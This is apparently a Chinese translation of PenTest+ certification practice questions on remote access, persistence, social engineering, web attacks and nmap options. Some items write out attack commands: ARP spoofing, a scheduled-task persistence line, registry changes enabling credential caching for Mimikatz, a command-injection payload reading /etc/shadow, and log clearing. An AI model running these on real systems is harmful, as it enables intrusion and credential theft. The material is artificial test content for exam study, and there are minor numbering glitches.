### 145. 以下哪个是 Windows 系统上的工具，可以像旧的 Telnet 客户端一样建立远程 Windows 控制台命令行访问？

1. `PsExec`
2. `VNC`
3. `RSH`
4. `Rlogin`

### 146. 以下哪项提供了从集中位置网络管理 Windows 系统的基础设施？

1. `SMB`
2. `VNC`
3. `WMI`
4. `RDP`

### 147. 以下哪些 Windows 功能可以通过网络连接远程管理 Windows 系统？（选择两项）

1. `SMB`
2. `Telnet`
3. `PS Remoting`
4. `WinRM`
5. `SSH`

### 148. 以下哪项可以使用图形用户界面通过网络连接远程管理 Windows 系统？

1. `SMB`
2. `RDP`
3. `PS Remoting`
4. `PsExec`
5. `SSH`


### 149. 下列哪项可用于网络连接使用图形用户界面远程管理 Macintosh 系统？
1. `Rlogin`
2. `RDP`
3. `ARD`
4. `PsExec`
5. `RSH`

### 150. 下列哪项可用于网络连接使用图形用户界面远程管理 Windows、Macintosh 或 Linux 系统（只要安装了必要的软件）？
1. `VNC`
2. `RDP`
3. `ARD`
4. `WMI`
5. `RSH`

### 151. 下列哪项可用于网络连接使用图形用户界面远程管理 Linux 系统？
1. `X11 forwarding`
2. `RDP`
3. `ARD`
4. `WMI`
5. `SMB`

### 152. 为什么在进行渗透测试时，你应该避免使用 `Telnet`、`rlogin` 和 `rsh` 等工具？
1. 它们传输数据缓慢。
2. 它们仅提供命令行界面。
3. 它们在网络上以明文形式传输数据。
4. 它们不再受现代操作系统支持。

### 153. 下列哪些技术可以在涉及 Linux 系统的渗透测试中建立持久化？
1. 启用 `WMI`。
2. 使用 `cron` 调度作业运行漏洞利用脚本或启动守护进程。
3. 使用 `Task Scheduler` 调度任务运行漏洞可执行文件或脚本。
4. 使用 `PS remoting`。

### 154. 下列哪些工具可以在没有你干预的情况下在 Windows 系统上自动运行任务？（选择两个）
1. `WMI`
2. `at`
3. `Task Scheduler`
4. `PS remoting`
5. `cron`

### 155. 下列哪项是恶意软件的一种类型，它提供有用的功能，但在运行时会秘密执行恶意操作？
1. `Backdoor`
2. `Trojan`
3. `Daemon`
4. `Worm`

### 166. 你正在进行灰盒渗透测试。你已成功攻了一个目标计算机系统。你可以采用哪些技术来确保持久化？（选择两个）
1. 创建一个 `backdoor`。
2. 创建一个 `user account`。
3. 禁用 `syslog daemon`。
4. 安装 `Telnet` 服务。
5. 启用 `Samba daemon`。

### 157. 你正在进行灰盒渗透测试。你已成功攻了一个目标计算机系统。你现在需要掩盖踪迹以隐藏你操作的证据。你可以采用哪些技术？（选择两个）
1. 在管理员主目录下创建一个名为 `Youvebeenhacked.txt` 的文本文件。
2. 删除所有日志文件中的条目。
3. 隐藏你复制到系统的任何文件。
4. 修改攻破系统时创建的日志记录。

### 158. 渗透测试人员在任务结束时运行了 `chkconfig --del <servicename>` 命令。测试人员可能这样做的原因是什么？
1. 检查持久化
2. 启用持久化
3. 移除持久化
4. 报告持久化

### 159. 如果渗透测试人员试图通过攻破 Windows 服务器来实现持久化，应该使用以下哪项？
1. `net session server | dsquery -user | net use c$`
2. `powershell && set-executionpolicy unrestricted`
3. `reg save HKLM\\System\\CurrentControlSet\\Services\\Sv.reg`
4. `schtasks.exe /create/tr "powershell.exe" Sv.ps1 /run` 

### 160. 客户请求进行无线渗透测试。在测试开始之前最可能需要哪些范围目标信息？
1. 客户使用的无线设备的频段和频率
2. 客户偏好的无线接入点供应商
3. 客户拥有的无线设备数量
4. 要测试的物理位置和网络 ESSIDs

### 161. 下列哪项是鱼叉式钓鱼攻击（spear phishing attack）的实例？
1. 使用短信攻击针对首席财务官（CFO）
2. 使用邮件攻击针对人力资源（HR）团队
3. 使用投放 USB 优盘攻击针对随机用户
4. 使用水蛭穴攻击针对某个组织

### 162. 对于在完成基础设施方面工作后被要求对目标公司的员工进行开源情报（OSINT）收集的渗透测试人员来说，最佳行动方案是什么？
1. 去客户所在地并使用冒装从员工获取信息。
2. 使用社交工程技术，通过拨打电话尝试获取员工信息。
3. 在网上搜索有关员工的信息，例如访问社交网络网站。
4. 向员工发送伪造邮件，看他们是否会回复敏感信息。

### 163. 渗透测试人员正在运行一次钓鱼测试，并从一台运行 Windows 10 操作系统的内部计算机接收到一个 shell。测试人员决定他想使用 `Mimikatz` 进行凭据收集。测试人员希望允许凭据缓存。以下哪些注册表更改可以允许此操作？
```
reg add HKLM\\System\\ControlSet000\\Control\\SecurityProviders /v UseCredential /t REG_DWORD /d 0
reg add HKCU\\System\\CurrentControlSet\\Control\\SecurityProviders /v UseCredential /t REG_DWORD /d 1
reg add HKLM\\Software\\CurrentControlSet\\Control\\SecurityProviders /v UseCredential /t REG_DWORD /d 1
```

### 164. 渗透测试人员成功部署了一个双生攻击（evil twin）并开始看到受害者流量。为了捕获所有未加密流量，测试人员想要采取的下一步是什么？
1. 收集用户凭据。
2. 通过冒充受信任的证书机构（CA）实施攻击。
3. 实现 HTTP 降级。
4. 执行中间人攻击。

### 165. 渗透测试人员受客户审查 Web 应用程序的可用性。测试人员应该利用以下哪种类型的攻击？
1. `TCP SYN flood`
2. `SQL injection`
3. `Cross-site scripting (XSS)`
4. `XMAS scan`

### 166. 一个 Web 应用程序针对浏览器并允许访问不同的账户。该应用程序从一个账户提取少量资金并发送到另一个账户。发生了什么类型的攻击？
1. `Cross-site scripting`
2. `Flash cookie exploitation`
3. `Header manipulation`
4. `SQL injection`

### 167. 某组织的几个员工最近是钓鱼攻击的受害者。他们收到一封似乎来自公司总裁的邮件。邮件声称如果不按照邮件指示点击邮件中的链接，将受到纪律处分。攻击者使用了哪些社交工程原则？
1. `Authority`（权威）
2. `Fear`（恐惧）
3. `Scarcity`（稀缺）
4. `Social proof`（社交证明）

### 168. 渗透测试人员正在对 Web 应用程序进行扫描。在审查扫描结果时，以下漏洞哪个关键并应该优先考虑利用？
1. `Clickjacking`
2. `Expired certificate`
3. `Fill path disclosure`
4. `Stored cross-site scripting (XSS)`

### 169. 渗透测试人员正在对交换机进行 ARP 欺骗。测试人员应该欺骗以下哪项以获取最多的信息？
1. 客户端的 MAC 地址
2. 域控制器的 MAC 地址 
3. Web 服务器的 MAC 地址
4. 网关的 MAC 地址


# 170. 一名渗透测试员正试图对一台计算机进行中间人 (MITM) 攻击。该计算机的网络配置如下：

* IP: 192.168.10.25
* 子网掩码: 255.255.255.0
* 默认网关: 192.168.10.254
* DHCP: 192.168.1.253
* DNS: 192.168.10.10, 192.168.20.10
* 恶意用户应该执行以下哪个命令来执行 MITM 攻击？

1. `arpspoof -c both -r -t 192.168.10.1 192.168.10.25`
2. `arpspoof -c both -t 192.168.10.25 192.168.1.253`
3. `arpspoof -t 192.168.10.25 192.168.10.254`
4. `arpspoof -r -t 192.168.1.253 192.168.10.25`

# 171. 在对 Web 应用程序进行黑盒测试期间，渗透测试员仅获得登录页面的 URL。以下是代码和输出：

```python
import requests
from BeautifulSoup import BeautifulSoup
request = requests.get ("https://www.willpanek.com/admin")
respHeaders, respBody = request [0], request [1]
if respHeader.statuscode = 200:
   soup = BeautifulSoup (respBody)
   soup = soup.FindAll ("div", {"type": "hidden"})
   print respHeader.StatusCode, StatusMessage
else:
   print respHeader.StatusCode, StatusMessage
Output: 200 OK
```

渗透测试员正试图做什么？

1. 分析 HTTP 响应码。
2. 水平权限提升。
3. 爬取页面中的隐藏字段。
4. 搜索 HTTP 头部。

# 172. 在 Web 应用程序渗透测试期间，测试员发现缺少内容安全策略 (CSP) 头部。测试员接下来最可能执行哪种攻击？

1. 点击劫持攻击
2. 命令注入攻击
3. 目录遍历攻击
4. 远程文件包含攻击

# 173. 一名渗透测试员正尝试物理安全评估，并并在测试期间使用“门下工具”（under-the-door tool）。测试员应该尝试以下哪种侵入技术？

1. 触发出口传感器
2. 震动开锁 (Lock bumping)
3. 绕过锁 (Lock bypass)
4. 开启锁 (Lock picking)

# 174. 一名渗透测试员对一个 Web 应用程序进行测试，发现用户登录过程使用 HTTP GET 方法发送 FROM 字段数据。为了降低敏感数据暴露的风险，HTML 表单应该使用以下哪种方法发送？

1. HTTP OPTIONS 方法
2. HTTP POST 方法
3. HTTP PUT 方法
4. HTTP TRACE 方法

# 175. 首席财务官 (CFO) 收到一封来自首席执行官 (CEO) 的邮件，显示需要向一个新的供应商发放汇款。然而，CFO 和 CEO 都不知道这个新供应商是谁。CEO 声称他从未发送过请求汇款的邮件。攻击者正试图使用哪种动机技术？

1. 权威原则
2. 恐惧原则
3. 相似性原则
4. 稀缺原则
5. 社会认同原则

# 176. 你是一名渗透测试员，正准备执行 Kerberoasting 攻击。给定以下情况，在何种情况下你会执行 Kerberoasting 攻击？

1. 测试员攻破了一个 Windows 设备并转储了本地安全授权 (LSA) 密钥。
2. 测试员需要检索安全账户管理器 (SAM) 数据库并破解密码哈希。
3. 测试员攻破了一个权限有限的用户账户，需要针对其他账户进行横向移动。
4. 测试员攻破了一个账户，并从系统中转储哈希和明文密码。

# 177. 你是一名渗透测试员，在进行测试时，正试图在一个权限限制的 Windows 系统上维持持久化。你应该使用哪个注册表项？

1. `HKEY_CLASSES_ROOT`
2. `HKEY_CURRENT_CONFIG`
3. `HKEY_CURRENT_USER`
4. `HKEY_LOCAL_MACHINE`

# 178. 一名渗透测试员正在监控受 WPA2-PSK 安全的无线网络，并试图捕捉客户端与接入点之间的握手。尽管测试员正在监控正确的通道，但他一直没有成功。哪种攻击可以帮助测试员获取握手？

1. 身份认证攻击
2. 分段攻击
3. Karma 攻击
4. SSID 广播泛洪

# 179. 一名渗透测试员成功捕获了远程机器的管理员凭据。测试员正试图使用 `PsExec` 访问系统，但测试员被拒绝权限。`PsExec` 必须访问哪些共享？

1. `ADMIN$` 和 `C$`
2. `ADMIN$` 和 `IPC$`
3. `ADMIN$` 和 `SERVICES`
4. `IPC$` 和 `C$`

# 180. 一名渗透测试员在 Linux 系统上运行了以下命令：

```bash
chmod 411 /usr/bin/sudo
```

现在可以操纵哪些问题？

1. 内核漏洞
2. sudo
3. 粘滞位 (sticky bits)
4. 未加引号的服务

# 181. 一名安全管理员正试图通过使用证书的备用名称 (SAN) 属性来加密通信。管理员应该利用 `SAN` 的原因是什么？

1. 可以保护多个域名
2. 不需要受信任的证书颁发机构 (CA)
3. 保护无限子域名
4. 提供扩展验证

# 182. 一名分析师正在审查 Web 应用程序的日志。分析师发现了一个可疑请求。该请求显示以下 URL：`http://www.company.com/about.php?i=../../passwd`。该请求试图做什么？

1. 跨站脚本
2. 目录遍历
3. 远程文件包含
4. 用户枚举

# 183. 你和同事正在讨论可能发生的不同类型的攻击。其中一种攻击是双方之间的通信被拦截并转发，且双方都不知道发生了拦截。正在讨论的是哪种攻击？

1. 中间人攻击
2. 鱼叉式钓鱼
3. 传递访问攻击
4. URL 劫持攻击

# 184. 一名渗透测试员成功利用了应用程序漏洞，现在需要删除 Linux 会话中的历史记录。哪个命令会删除历史？

1. `cat history`
2. `history -c`
3. `history --remove`
4. `rm -f ./history`

# 185. 一名帮助台技术人员接到一个自称是员工的电话。此人账户被锁定，并请求协助解锁。帮助台在授予访问权限之前要求身份证明。来者正试图执行哪种攻击？

1. 冒充
2. 审问
3. 钓鱼
4. 窥视

# 186. 一名渗透测试员最近完成了一项测试，发现一个遗留 Web 应用程序容易受到 SQL 注入。客户表示修复该漏洞需要更改架构，管理层不希望对当前应用程序产生任何风险。以下哪些条件可以在降低 SQL 注入风险的同时，提供低工作量的短期解决方案？（选择两项）

1. 识别并删除存储过程中的动态 SQL。
2. 识别并删除代码中的内联 SQL 语句。
3. 识别并过滤所有用户输入。
4. 识别恶意输入的来源并拦截该 IP 地址。
5. 对 SQL 语句使用黑名单验证。


## 6. 对 SQL 语句使用白名单验证。

## 187. 渗透测试人员在受攻击的机器上运行以下命令：`python -c 'import pty; pty.spawn("/bin/bash")'`。该测试人员正在执行什么操作？
1. 创建沙箱
2. 捕获凭据
3. 删除 Bash 历史记录
4. 升级 shell

## 188. 门禁步道利用了以下哪种类型的物理安全攻击？
1. 冒充
2. 撬锁
3. 尾随（Piggybacking）
4. 窥视

## 189. 渗透测试人员使用社会工程工具包 (`SET`) 创建了一个公司云托管网络邮箱门户的副本，然后发送一封电子邮件试图获取 CEO 的登录凭据。这是哪种类型攻击的示例？
1. 侦听攻击
2. 冒充攻击
3. 鱼叉式钓鱼攻击（Spear phishing）
4. 针对高者的钓鱼攻击（Whaling）

## 190. 渗透测试人员正在测试客户网络的渗透情况，并成功获取了一台笔记本电脑的访问权限。测试人员从笔记本电脑获取凭据的下一步是什么？
1. 对用户密码进行暴力破解。
2. 执行 `LLMNR/NETBIOS-NS` 查询。
3. 利用 `BeEF` 框架捕获凭据。
4. 执行 ARP 欺骗中毒。

## 191. 你是一名渗透测试人员，在客户的域控制器中发现了一个漏洞。该漏洞是域控制器启用了空会话（null sessions）。可以使用什么类型的攻击来利用此漏洞？
1. 尝试通过哈希传递（pass-the-hash）攻击中继凭据。
2. 尝试暴力破解密码以登录主机。
3. 尝试 RID 循环以枚举用户和组。
4. 尝试会话劫持以冒充系统账户。

## 192. 渗透测试人员被要求通过进入其公司办公室来评估客户的物理安全性。测试人员正在寻找一种允许他在工作期间和非工作时间内进入建筑的方法。测试测试人员尝试的最有效方法是什么？
1. 门禁克隆（Badge cloning）
2. 撬锁
3. 使用锁绕过工具（lock bypass）
4. 尾随（Piggybacking）

## 193. 一组织的总裁报告说，他收到许多自称是帮助台部门的电话。此个人要求 CEO 验证其网络身份凭据，因为他的电脑正在网络上广播。正在发生哪种攻击？
1. 冒充
2. 审问
3. 语音钓鱼（Vishing）
4. 针对高者的钓鱼攻击（Whaling）

## 194. 渗透测试人员在测试客户网络时发现了几个未引号的服务路径（unquoted service paths）。测试人员如何利用这些漏洞来让自己有利？
1. 通过尝试破解服务账户密码
2. 通过尝试 DLL 劫持攻击
3. 通过尝试定位弱的文件和文件夹权限
4. 通过尝试权限提升攻击

## 195. 当通过蓝牙向目标发送未经请求的消息时，正在执行的是哪种类型的攻击？
1. 蓝牙窃取（Bluesnarfing）
2. 蓝牙狙击（Bluesniping）
3. 蓝牙劫持（Bluejacking）
4. 战地涂鸦（War chalking）

## 196. 测试人员在服务器上发现以下日志记录：
```
Dec 23 2018 00:22:16 httpd[2342]: GET
/app2/prod/proc/process.php?input=change;cd%20../../../etc;cat%20shadow
```
正在尝试的是哪种攻击？
1. 缓冲区溢出
2. 命令注入
3. 跨站点脚本（XSS）
4. 密码攻击

## 197. 你和同事正在讨论不同类型的攻击。其中一种攻击是客户端攻击，用于通过浏览器通过 JavaScript 代码操纵 HTML `iframe`。这描述的是哪种类型的攻击？
1. 缓冲区溢出
2. 跨站点脚本 (XSS)
3. 中间人攻击 (MITM)
4. SQL 注入 (SQLi)

## 198. 用户注意到他们的机器在过去的一周里表现异常。他们一直经历着运行缓慢和输入延迟。用户发现了几个文本文件，其中似乎包含他们的电子邮件片段和一些即时消息对话。用户运行了病毒扫描，但没有检测到任何东西。哪种恶意软件可能影响这台机器？
1. 后门
2. 键盘记录器（Keylogger）
3. 勒索软件
4. 根基程序（Rootkit）

## 199. 你和同事正在讨论竞态条件利用（race condition exploitation）。以下哪一个是竞态条件的示例？
1. 跨站点请求伪造 (XSRF)
2. 硬编码凭据
3. SQL 注入 (SQLi)
4. 检查时间与使用时间 (TOCTTOU)

## 200. 你是一名渗透测试人员，正准备客户的 Web 应用程序启动会话劫持攻击。为了确保攻击成功，获取哪些信息很重要？
1. 会话 Cookie（session cookie）
2. 会话票据（session ticket）
3. 用户名

# 第 4 章 渗透工具

本文涵盖的 PENEST+ 考试主题：

### Nmap
使用 `nmap` 进行信息收集：
- `-sS`: SYN 扫描
- `-sT`: 全连接扫描
- `-p`: 端口选择
- `-sV`: 服务识别
- 
- `-O`: 操作系统指纹识别
- `-Pn`: 禁用 ping
- `-iL`: 输入文件
- `-T`: 时间参数
- `-oA`: 输出格式
- `-oN`: 正常输出
- `-oG`: 可 grep 的输出
- `-oX`: XML 输出

### 工具用例：
- 侦察
- 枚举
- 漏洞扫描
- 凭据攻击
    - 离线密码破解
- 持久化
- 配置合规性
- 逃逸
- 反编译
- 取证
- 调试
- 软件保障
    - 模糊测试
    - SAST
    - DAST

### 扫描器
- `Nikto`
- `OpenVAS`
- `SQLmap`
- `Nessus`

### 凭据工具
- `Hashcat`
- `Medusa`
- `Hydra`
- `Cewl`
- `John the Ripper`
- `Cain and Abel`
- `Mimikatz`
- `Patator`
- `Dirbuster`
- `W3AF`

### 调试器
- `OLLYDBG`
- `Immunity debugger`
- `GDB`
- `WinDBG`
- `IDA`

### 软件保障
- `Findbugs/findsecbugs`
- `Peach`
- `AFL`
- `SonarQube`
- `YASCA`

### OSINT（开源情报收集）
- `Whois`
- `Nslookup`
- `Foca`
- `TheHarvester`
- `Shodan`
- `Maltego`
- `Recon-NG`
- `Censys`

### 无线
- `Aircrack-NG`
- `Kismet`
- `WiFite`

### Web 代理
- `OWASP ZAP`
- `Burp Suite`

### 社会工程工具
- `SET`
- `BeEF`

### 远程访问工具
- `SSH`
- `NCAT`
- `NETCAT`
- `Proxychains`

### 网络工具
- `Wireshark`
- `Hping`

### 移动工具
- `Drozer`
- `APKX`
- `APK studio`

### 杂
- `Searchsploit`
- `Powersploit`
- `Responder`
- `Impacket`
- `Empire`
- `Metasploit framework`


## 4.3 给定一个场景，分析与渗透测试相关的工具输出或数据。

* 密码破解
* 传递哈希值 (Pass the hash)
* 设置绑定型 Shell (Bind shell)
* 获取反弹 Shell (Reverse shell)
* 代理连接
* 上传 Web Shell
* 注入 (Injections)

## 4.4 给定一个场景，分析一个基础脚本（限于 Bash、Python、Ruby 和 PowerShell）。

* 逻辑
    * 循环
    * 流程控制
* I/O
    * 文件 vs. 终端 vs. 网络
* 替换
* 变量
* 常用操作
    * 字符串操作
    * 比较
* 错误处理
* 数组
* 编码/解码

## 问

1. 你正在为某客户进行灰盒渗透测试。你已经识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具对该主机运行 SYN 端口扫描。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.1 -sS`
    2. `nmap 192.168.1.1 -sT`
    3. `nmap 192.168.1.1 -sU`
    4. `nmap 192.168.1.1 -sA`

2. 你正在为某客户进行白盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具对 `192.168.1.0` 子网上的每个主机（使用子网掩码 `255.255.255.0`）运行扫描。你可以使用哪些命令来执行此操作？（选择两个。）

    1. `nmap 192.168.1.0`
    2. `nmap 192.168.1.0-255`
    3. `nmap 192.168.1.0 –m:255.255.255.0`
    4. `nmap 192.168.1.0/24`
    5. `nmap 192.168.1.1-254`

3. 你正在为某客户进行灰盒渗透测试。你已经识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具对该主机运行 SYN 端口扫描。你可以使用哪些命令来执行此操作？（选择两个。）

    1. `nmap 192.168.1.1 –sS`
    2. `nmap 192.168.1.1`
    3. `nmap 192.168.1.1 -sV`
    4. `nmap 192.168.1.1 -O`
    5. `nmap 192.168.1.1 –T`

4. 你正在为某客户进行灰盒渗透测试。你已经识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具来确定该主机运行的操作系统。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.1 –sS`
    2. `nmap 192.168.1.1 –sL`
    3. `nmap 192.168.1.1 -sV`
    4. `nmap 192.168.1.1 -O`

5. 你正在为某客户进行灰盒渗透测试。你已经识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具来确定该主机运行的操作系统。你可以使用哪些命令来执行此操作？

    1. `nmap 192.168.1.1 –A`
    2. `nmap 192.168.1.1 –T1`
    3. `nmap 192.168.1.1 -sT`
    4. `nmap 192.168.1.1 -f`

6. 你正在为某客户进行灰盒渗透测试。你已经识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具对该主机运行连接扫描（connect scan）。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.1 –sL`
    2. `nmap 192.168.1.1 –T1`
    3. `nmap 192.168.1.1 -sT`
    4. `nmap 192.168.1.1 -f`

7. 你正在为某客户进行灰盒渗透测试。你已经识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具对该主机运行 UDP 扫描。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.1 –sL`
    2. `nmap 192.168.1.1 –U`
    3. `nmap 192.168.1.1 -sT`
    4. `nmap 192.168.1.1 -sU`

8. 你正在为某客户进行灰盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具发现 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的所有主机，但不实际扫描这些主机。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.0/24 –sL`
    2. `nmap 192.168.1.0/24 --list`
    3. `nmap 192.168.1.1-254 -sW`
    4. `nmap 192.168.1.1-254 -sM`

9. 你正在为某客户进行灰盒渗透测试。你识别出一个 IP 地址为 `192.168.1.1` 的内部主机作为潜在目标。你需要使用笔记本电脑上的 `nmap` 工具对该主机运行 TCP ACK 扫描。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.1 –sA`
    2. `nmap 192.168.1.1 –T1`
    3. `nmap 192.168.1.1 -sT`
    4. `nmap 192.168.1.1 -ACK`

10. 你正在为某客户进行白盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具对 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的每个主机进行扫描，但不扫描 IP 地址为 `192.168.1.250` 的主机（你怀疑它是一个蜜罐）。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.1-254`
    2. `nmap 192.168.1.0/24 --noscan 192.168.1.250`
    3. `nmap 192.168.1.0/24 --exclude 192.168.1.250`
    4. `nmap 192.168.1.1-254 --skip 192.168.1.250`

11. 你正在为某客户进行灰盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具对 IP 地址为 `192.168.1.10`、`192.168.1.11` 和 `192.168.1.13` 的网络主机运行 TCP 扫描。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.10-13 –sA`
    2. `nmap 192.168.1.0/24 –sA`
    3. `nmap 192.168.1.0/24 -sT`
    4. `nmap 192.168.1.1-13`

12. 你正在为某客户进行灰盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具对 IP 地址为 `192.168.1.10`、`192.168.1.11`、`192.168.1.13` 和 `192.168.1.15` 的网络主机运行 UDP 扫描。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.10-15 –sU`
    2. `nmap 192.168.1.0/24 –sU`
    3. `nmap 192.168.1.10-15 -sU`
    4. `nmap 192.168.1.0/15`

13. 你正在为某客户进行灰盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具发现 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的所有主机，但不实际扫描这些主机。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.0/24 –sL`
    2. `nmap 192.168.1.1-254 -sn`
    3. `nmap 192.168.1.1-254 -sW`
    4. `nmap 192.168.1.1-254 -sM`

14. 你正在为某客户进行灰盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具发现 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）中开启了 Telnet 端口的主机。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.0/24 -s23`
    2. `nmap 192.168.1.0/24 –p 21`
    3. `nmap 192.168.1.1-254 –p 21`
    4. `nmap 192.168.1.1-254 –p 23`

15. 你正在为某客户进行灰盒渗透测试。你需要使用笔记本电脑上的 `nmap` 工具扫描 IP 地址为 `192.168.1.2` 的网络主机的所有端口。你应该使用哪个命令来执行此操作？

    1. `nmap 192.168.1.2 -p-`
    2. `nmap 192.168.1.2 –p all`
    3. `nmap 192.168.1.2 –s all`
    4. `nmap 192.168.1.2 –p 1-1024`

16. 你正在为某客户进行灰盒渗透测试。你使用 `nmap` 工具检查你发现的一台 Linux 服务器上是否运行了 Telnet 服务。命令输出显示 Telnet 端口状态为 Filtered（过滤）。这可能意味着什么？

    1. Telnet 服务已安装但未运行。
    2. Telnet 服务未安装。
    3. Telnet 服务未安装，另一个服务正在使用其默认端口。
    4. Telnet 服务已安装并运行，但主机防火墙拦截了它。


### 17. 你正在为一个客户进行灰盒渗透测试。你使用 `nmap` 工具查看你发现的一台 Linux 服务器上是否正在运行 Telnet 服务。命令的输出显示 Telnet 端口状态为 Open（开放）。这意味着什么？

1. Telnet 服务已安装但未运行。
2. Telnet 服务已安装、正在运行且可以访问。
3. 未安装 Telnet 服务，另一个服务正在使用其默认端口。
4. 未安装 Telnet 服务。

### 18. 你正在为一个客户进行灰盒渗透测试。你使用 `nmap` 工具查看你发现的一台 Linux 服务器上是否正在运行 Telnet 服务。命令的输出显示 Telnet 端口状态为 Closed（关闭）。这可能什么？（选择两个）

1. Telnet 服务已安装但未运行。
2. Telnet 服务已安装、正在运行且可以访问。
3. 未安装 Telnet 服务，另一个服务正在使用其默认端口。
4. 未安装 Telnet 服务。
5. Telnet 服务已安装并正在运行，但主机防火墙拦截了它。

### 19. 一名渗透测试员使用 `nmap` 工具向目标主机发送一个 TCP SYN 数据包。目标主机响应一个 SYN ACK 数据包，但 `nmap` 没有完成连接，而是向目标主机发送了一个重置（reset）包。测试员在执行 `nmap` 命令时使用了哪个选项？

1. `-sS`
2. `-sT`
3. `-sU`
4. `-sL`

### 20. 哪个命令选项会导致 `nmap` 检测目标主机上运行的服务并报告发现任何服务的版本号？

1. `-sS`
2. `-sT`
3. `-sU`
4. `-sV`

### 21. 哪个命令选项会导致 `nmap` 仅扫描 UDP 端口 20 以及 TCP 端口 21 和 22？

1. `-p 20-22`
2. `--top-ports 1024`
3. `-p U:20,T:21,22`
4. `-p-`

### 22. 作为一名渗透测试员，你想扫描目标网络中 IP 地址为 `192.168.1.200` 的 Linux 服务器，查看其是否安装并运行了 Web 服务器。哪些 `nmap` 命令可以实现此操作？（选择两个）

1. `nmap 192.168.1.200 –p http,https`
2. `nmap 192.168.1.200 –sn 80,443`
3. `nmap 192.168.1.200 –p 80,443`
4. `nmap 192.168.1.200 –T4 80,443`

### 23. 作为一名渗透测试员，你想扫描目标网络中 IP 地址为 `192.168.1.200` 的 Linux 服务器的 1000 个常用网络服务，以查看它们是否安装并运行。然而，你已经知道该主机正在运行 DNS 服务，因此你想在扫描中跳过该端口。哪个 `nmap` 命令可以实现此操作？

1. `nmap 192.168.1.200 –p 1-1000 --exclude-ports 53`
2. `nmap 192.168.1.200 --top-ports 1000 --exclude-ports 53`
3. `nmap 192.168.1.200 --well-known-ports --exclude-ports 53`
4. `nmap 192.168.1.200 --top-ports 1000`

### 24. 你创建了一个目标主机列表并想要用 `nmap` 扫描它们，已将其保存到名为 `/root/targets.txt` 的文本文件中。你应该使用哪个命令来使用该文件运行扫描？

1. `nmap -iR /root/targets.txt`
2. `nmap --file /root/targets.txt`
3. `nmap -iL /root/targets.txt`
4. `nmap -iF /root/targets.txt`

### 25. 一名渗透测试员想要对 `192.168.1.0` 子网（子网掩码为 `255.255.255.0`）上的所有主机进行端口扫描，但实际上不发现这些主机。她应该使用哪个命令？

1. `nmap 192.168.1.0/24 -Pn`
2. `nmap 192.168.1.0/24 -sL`
3. `nmap 192.168.1.0/24 -sn`
4. `nmap 192.168.1.0/24 -n`

### 26. 一名渗透测试员正在使用 `nmap` 扫描目标网络上的主机。客户使用了激进的 IPS（入侵防御系统），并雇佣了她需要避开的经验丰富的员工。她应该在 `nmap` 中使用哪个计时选项来避免检测？（假设时间不是问题。）

1. `-T1`
2. `-T3`
3. `-T4`
4. `-T5`

### 27. 一名渗透测试员正在使用 `nmap` 扫描目标网络上的主机。客户态度较松，且雇佣了缺乏经验的员工。她可以考虑使用哪个计时选项来加速扫描？

1. `-T1`
2. `-T2`
3. `-T3`
4. `-T4`

### 28. 一名渗透测试员运行 `nmap` 扫描时没有指定计时选项。默认使用的是哪一个？

1. `-T1`
2. `-T2`
3. `-T3`
4. `-T4`

### 29. 哪个 `nmap` 计时选项会进入偏执（Paranoid）模式？

1. `-T0`
2. `-T1`
3. `-T2`
4. `-T3`

### 30. 哪个 `nmap` 计时选项会进入疯狂（Insane）模式？

1. `-T5`
2. `-T4`
3. `-T3`
4. `-T2`

### 31. 哪个 `nmap` 计时选项会进入礼貌（Polite）模式？

1. `-T0`
2. `-T1`
3. `-T2`
4. `-T3`

### 32. 哪个选项将 `nmap` 输出保存到运行系统的标准文本文件中？

1. `-oX`
2. `-oN`
3. `-oT`
4. `-oV`

### 33. 哪个选项将 `nmap` 输出保存到运行系统的 XML 格式文本文件中？

1. `-oX`
2. `-oN`
3. `-oT`
4. `-oG`

### 34. 哪个选项将 `nmap` 输出保存到可以使用 `grep` 命令快速搜索的文件？

1. `-oV`
2. `-oN`
3. `-oT`
4. `-oG`

### 35. 哪个选项将 `nmap` 输出同时保存到普通文本文件、XML 格式文本文件和可 grep（greppable）的文本文件中？

1. `-oX`
2. `-oN`
3. `-oA`
4. `-oG`

### 36. 哪个选项会让 `nmap` 使用分段包来欺骗数据过滤防火墙？

1. `-f`
2. `-Pn`
3. `-n`
4. `-sC`

### 37. 哪个选项会让 `nmap` 从伪造的 IP 地址发送扫描？

1. `-f`
2. `-D`
3. `-n`
4. `-sF`

### 38. 哪个选项会让 `nmap` 扫描指定数量的随机主机？

1. `-iL`
2. `-sS`
3. `-sR`
4. `-iR`

### 39. 哪个选项会让 `nmap` 扫描 100 个常用端口，如 20, 21, 23, 25, 53, 80 等？

1. `-p-`
2. `-sV`
3. `-F`
4. `-p 100`

